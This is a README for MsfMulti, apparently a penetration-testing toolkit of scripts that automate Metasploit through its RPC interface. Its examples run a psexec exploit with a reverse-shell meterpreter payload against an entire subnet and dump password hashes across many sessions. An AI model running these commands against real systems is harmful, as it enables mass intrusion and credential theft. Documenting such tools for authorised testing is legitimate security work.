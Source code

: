 # MsfMulti

MsfMulti is a set of scripts to ease some tasks using metasploit during large scope engagements.

* `multisploit.py` - Run a given sploit against multiple targets
* `multipost.py` - Run a given `post` module against multiple sessions


## Dependencies

* msgpack-python
* requests


## Scripts

All the scripts rely on Metasploit's RPC interface, before using any script make sure you have
loaded the `msgrpc` module from the console with the `load msgrpc` command.


### multisploit.py

Run a given exploit against multiple targets.

Before running this script, you must have started the payload handler as a job from the console,
with the `ExitOnSession` option set to `false`.

Example:

```text
$ ./multisploit.py -e windows/smb/psexec -p windows/meterpreter/reverse_https \
-t 192.168.1.0/24 --opts='LHOST=192.168.1.16,LPORT=443'
```

Full help:

```text
usage: multisploit.py [-h] -e EXPLOIT -p PAYLOAD -t TARGETS [--opts OPTIONS]
                       [--rpc-host HOST] [--rpc-port PORT] [--rpc-user USER]
                       [--rpc-passwd PASSWD] [--rpc-ssl]
 
 Metasploit mass exploitation utility
 
 optional arguments:
   -h, --help            show this help message and exit
   -e EXPLOIT, --exploit EXPLOIT
                         exploit to run against targets
   -p PAYLOAD, --payload PAYLOAD
                         payload to use with the exploit
   -t TARGETS, --targets TARGETS
                         comma-separated list of IPs/CIDRs
   --opts OPTIONS        comma-separated options to pass to the exploit
 
 MSFRPC connection:
   --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
   --rpc-port PORT       MSFRPC port (default: 55552)
   --rpc-user USER       user to use to connect to MSFRPC (default: msf)
   --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
   --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```

### multipost.py

Run a given `post` module against multiple sessions.

Example:

```text
$ ./multipost.py -m windows/gather/hashdump -s 1-10,12,14-18
```

Full help:

```text
usage: multipost.py [-h] -m MODULE -s SESSIONS [--opts OPTS] [--rpc-host HOST]
                    [--rpc-port PORT] [--rpc-user USER] [--rpc-passwd PASSWD]
                    [--rpc-ssl]

Metasploit mass post-exploitation utility

optional arguments:
  -h, --help            show this help message and exit
  -m MODULE, --module MODULE
                        post module to run
  -s SESSIONS, --sessions SESSIONS
                        comma-separated list of sessions and/or session-ranges
  --opts OPTS           comma-separated options to pass to the post module

MSFRPC connection:
  --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
  --rpc-port PORT       MSFRPC port (default: 55552)
  --rpc-user USER       user to use to connect to MSFRPC (default: msf)
  --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
  --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```
